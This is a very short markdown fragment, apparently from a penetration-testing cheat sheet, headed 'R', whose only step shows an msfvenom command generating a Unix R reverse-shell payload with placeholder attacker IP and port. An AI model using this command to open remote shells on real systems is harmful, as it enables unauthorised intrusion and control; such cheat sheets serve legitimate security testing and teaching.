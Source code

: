 # R

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_r lhost=<IP> lport=<PORT>
```